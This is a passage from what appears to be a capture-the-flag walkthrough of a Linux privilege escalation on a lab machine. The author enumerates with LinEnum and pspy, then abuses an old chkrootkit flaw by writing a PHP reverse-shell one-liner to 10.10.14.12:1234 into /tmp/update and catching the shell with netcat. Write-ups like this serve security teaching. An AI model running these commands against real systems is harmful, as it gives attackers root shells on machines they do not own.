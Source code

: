 ```text
chmod +x LinEnum.sh
```

Run the script.

```text
./LinEnum.sh
```

Only one thing stands out in the output.

![](https://miro.medium.com/max/1126/1*a66UrLJZtw7xOjPz30diJg.png)

In our nmap scan, port 22 was not reported to be open, however, the LinEnum script reports it as listening on localhost. I’m not sure what to do with this piece of information but I’ll keep it at the back of my mind in case I don’t find any other way to escalate privileges.

Next, let’s try pspy. If you don’t have the script, you can download it from the following github repository.

```text
https://github.com/DominicBreuker/pspy
```

Upload it and run it on the attack machine in the same way we did for LinEnum.

After a minute we see an interesting process pop up.

![](https://miro.medium.com/max/890/1*ekBPVdpGUEeu7fHUwwkQCA.png)

Every minute or so the chkrootkit is being run. I’ve never seen that on a machine before so I googled it and found out that it is a program intended to help system administrators check their system for known rootkits. Next, I googled “chkrootkit privilege escalation” and landed on this [exploit](https://www.exploit-db.com/exploits/33899).

There is a privilege escalation vulnerability with old versions of this software that will run any executable file named /tmp/update as root. Therefore, all we have to do is create an “update” file that contains a reverse shell and wait for the scheduled task to give us a shell with root privileges.

To do that, navigate to the /tmp directory and create the file update. In the update file add the following code.

```text
#!/bin/bash
php -r '$sock=fsockopen("10.10.14.12",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Then give it execute privileges:

```
chmod +x /tmp/update
```

Set up a listener to receive the reverse shell.

```text
nc -nlvp 1234
```
